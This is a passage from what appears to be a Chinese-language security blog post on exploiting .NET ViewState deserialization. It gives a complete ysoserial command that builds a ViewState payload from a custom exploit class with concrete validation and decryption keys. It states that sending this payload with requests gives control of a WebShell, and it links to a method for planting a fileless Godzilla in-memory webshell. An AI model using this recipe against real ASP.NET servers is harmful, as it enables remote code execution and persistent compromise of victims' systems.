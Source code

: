 生成 payload：

```powershell
.\ysoserial.exe 
-p ViewState 
-g ActivitySurrogateSelectorFromFile 
-c "ExploitClass.cs;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.dll;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.Web.dll" 
--path="/default.aspx" 
--apppath="/" 
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
```

之后的请求都附带这个 payload 就可以操作 WebShell 了

![](/img/2024-08-12-viewstate-exp/5.png)

类似的还可以写哥斯拉内存马：

- [.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)

### 0x03 其他
